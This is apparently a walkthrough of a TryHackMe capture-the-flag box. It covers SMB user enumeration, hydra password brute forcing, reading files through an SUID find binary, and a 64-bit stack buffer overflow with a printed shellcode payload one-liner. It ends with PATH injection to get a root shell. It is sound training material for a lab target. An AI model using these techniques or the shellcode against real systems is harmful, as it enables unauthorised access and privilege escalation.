This box is rated medium difficulty on THM, it's centered around us finding login credentials and exploiting three binaries in different ways.

_Escalate your privileges by exploiting vulnerable binaries._

## Scanning & Enumeration 
Before getting to the good stuff, I need to find a way to login to the system. I run a quick Nmap scan to find running services on the provided IP.

```
$ sudo nmap -p22,139,445 -sCV 10.66.174.231 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-17 22:25 CST
Nmap scan report for 10.66.174.231
Host is up (0.049s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3f:36:de:da:2f:c3:b7:78:6f:a9:25:d6:41:dd:54:69 (RSA)
|   256 d0:78:23:ee:f3:71:58:ae:e9:57:14:17:bb:e3:6a:ae (ECDSA)
|_  256 4c:de:f1:49:df:21:4f:32:ca:e6:8e:bc:6a:96:53:e5 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: THM_EXPLOIT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2026-01-18T04:26:06
|_  start_date: N/A
|_nbstat: NetBIOS name: THM_EXPLOIT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: thm_exploit
|   NetBIOS computer name: THM_EXPLOIT\x00
|   Domain name: \x00
|   FQDN: thm_exploit
|_  System time: 2026-01-18T04:26:06+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.31 seconds
```

There are only three ports open:
- SSH on port 22
- SMB on ports 139 and 445

Let's enumerate Samba shares and see about grabbing credentials for an account. Guest logon is enabled however we have no permissions for shares. 



Next I run enum4linux to find valid users on the system, which returns: kel, des, tryhackme, and noentry.



I use hydra to brute force a password for these users and get a login for tryhackme. 



## SUID Binary
Now let's SSH in and begin with the first binary. First, I use `find / -perm /4000 2>/dev/null` to check all binaries with an SUID bit set and see that we have permission to execute `/usr/bin/find` as des. [GTFOBins](https://gtfobins.github.io/gtfobins/find/#file-read) has a method of reading a file with this:

```
find /home/des/flag.txt -exec cat {} \;
```



This gives us the first flag along with his credentials. The next challenge is buffer overflow. After switching users I find a binary named bof in his home dir and see that Gnu debugger is installed on the box.

Refer to [this article](https://medium.com/@buff3r/basic-buffer-overflow-on-64-bit-architecture-3fb74bab3558) for a basic understanding of buffer overflow. 

## Buffer Overflow
First I double check that the `GNU_STACK` is executable with the readelf utility.



Next, I use Gnu debugger and print an insanely long string to check what the base pointer is overwritten with.



Now, I analyze the stack with x/100x $rsp which prints the first 100 bytes on top of the stack and increase the starting point to 700 with x/100x $rsp-700 . 



Take note of any address where the stack is filled with A's (0x58585858) as we'll need to jump there later on. Locate metasploit's `pattern_create.rb` tool and use it to create a string that's 1000 characters long.

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
```

Run the debugger again and input the string to overwrite the register yet again. Now let's recheck the register to confirm.



We can check the byte offset by providing the base pointer value using metasploit's `pattern_offset.rb` tool. In this case it's 608 bytes plus another 8 for the return address.



We'll also need a payload to use. You can grab some shellcode from [this site](https://shell-storm.org/shellcode/index.html) or use the one provided for the box which spawns a shell.

```
(python -c 'print("\x90" * (616 - 27 - 100) + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "\x90" * 100 + "\x7c\xe3\xff\xff\xff\x7f\x00\x00")'; cat) | ./bof
```

Let me break down this command as there's a lot going on. We are using python to print our payload and pass that into the vulnerable binary as stdin.

```
(python -c 'print(PAYLOAD)'; cat) | ./bof
```

The payload is structured like this:

```
"\x90" * (616 - 27 - 100)   # NOP sled (part 1)
+ SHELLCODE                # 27 bytes
+ "\x90" * 100             # NOP sled (part 2)
+ RETURN_ADDRESS           # 8 bytes
```

We supply a bunch of NOP bytes (which tell the CPU to do nothing and go to the next instruction). This makes it easier as we can jump anywhere inside the 'sled'.

616 is the offset from the start of the buffer to our saved instruction pointer. 27 is the size of our shellcode, which spawns a shell in the terminal. 100 is the size of the second part of the sled. Structuring it this way let's us easily pop our shellcode in the middle without having to worry about other factors. 

Finally we place our new return address so the CPU knows to execute our shellcode. Putting this all together spawns a shell as Kel and we can display the flag in his home directory, which gives us his credentials in turn.



## $PATH Injection
Onto the final binary where we must exploit a PATH vulnerability to grab a root shell. Executing the 'exe' binary prints the stdout for what seems to be the `ps` command. 


Since we can execute this binary as root, it's possible to inject the current directory into our $PATH variable and host a malicious ps binary there. You can make ps execute whatever, but I decide to spawn a shell as root.

 

All that's left is to grab the root flag and complete the box. This box was great practice, especially the BO portion as I don't come across it all that often. I hope this was helpful to anyone stuck or following along and happy hacking!
